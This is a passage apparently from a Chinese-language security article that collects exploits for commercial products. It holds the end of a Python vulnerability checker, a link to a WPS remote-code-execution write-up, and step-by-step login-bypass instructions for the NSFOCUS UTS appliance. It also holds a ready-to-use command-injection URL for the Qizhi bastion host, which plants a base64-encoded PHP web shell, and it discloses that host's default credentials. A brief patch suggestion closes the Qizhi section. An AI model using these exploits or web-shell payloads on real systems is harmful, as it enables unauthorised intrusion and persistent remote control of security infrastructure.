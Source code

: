 ```
            else:
                print("\[-\] May command error!")
        else:
            print("\[\*\] %s may not vulnerabile ! ,code is:%s"%(u,str(data\["code"\])))
    except Exception as e:
        print("\[-\] Error %s , %s"%(u,e))

```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x04 WPS 命令执行漏洞

    详情请查看：http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x05 绿盟 UTS 绕过登录

    随便输密码 -> 修改返回包为 True-> 放行 -> 等待第二次拦截包 -> 内含管理员 MD5-> 替换 MD5 登录  
    直接请求接口：/webapi/v1/system/accountmanage/account

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x06 齐治堡垒机 RCE

    利用条件：无法登录

    利用过程:

*   第一，http://10.20.10.11/listener/cluster\_manage.php 返回 “OK”。
    
*   第二，执行以下链接即可 getshell，执行成功后，生成 PHP 一句话马 / var/www/shterm/resources/qrcode/lbj77.php 密码 10086。这里假设 10.20.10.10 为堡垒机的 IP 地址。
    

```
https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${IFS}|\`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash\`|${IFS}|echo${IFS}

```

 _这里提供齐治堡垒机的默认账号密码 **shterm/shterm**_

    修复意见：

        $node\_id 的看起来应该是一个整数，所以只需在 ha\_request.php 文件开头，添加以下一行代码，对该变量进行过滤即可。

```
$node\_id = @intval($req\_node\_id);

```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x07 泛微云桥任意文件读取
